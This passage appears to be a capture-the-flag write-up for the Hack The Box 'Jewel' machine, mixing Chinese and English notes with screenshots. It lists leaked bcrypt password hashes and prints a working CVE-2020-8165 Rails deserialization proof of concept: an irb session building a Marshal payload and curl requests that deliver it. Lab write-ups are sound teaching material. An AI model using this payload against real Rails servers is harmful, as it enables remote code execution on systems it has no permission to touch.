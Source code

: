 ![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-37-53.png)

`http://jewel.htb:8080/users/18`

`http://jewel.htb:8080/users/1`

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-31-55.png)


## 8000

> Apache httpd 2.4.38

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-21-57.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-41-18.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-41-54.png)

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-42-23.png)


![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-43-03.png)

```bash
bill bill@mail.htb $2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
jennifer jennifer@mail.htb $2a$12$ik.0o.TGRwMgUmyOR.Djzuyb/hjisgk2vws1xYC/hxw8M1nFk0MQy
```
![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-21-45-38.png)

尝试破解，但是没成功

继续查看其他文件时，发现了服务允许的确切版本

![]({{ site.url }}/assets/Jewel_211.assets/2020-11-09-22-57-29.png)

```bash
ruby '2.5.5'
rails '5.2.2.1'
```

`https://github.com/masahiro331/CVE-2020-8165`


```
$ bundle exec rails console

irb(main):> code = '`touch /tmp/rce`'
irb(main):> erb = ERB.allocate
irb(main):> erb.instance_variable_set :@src, code
irb(main):> erb.instance_variable_set :@filename, "1"
irb(main):> erb.instance_variable_set :@lineno, 1
irb(main):> payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
irb(main):>
irb(main):> puts "Payload"
irb(main):> require 'uri'
irb(main):> puts URI.encode_www_form(payload: payload)

$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
```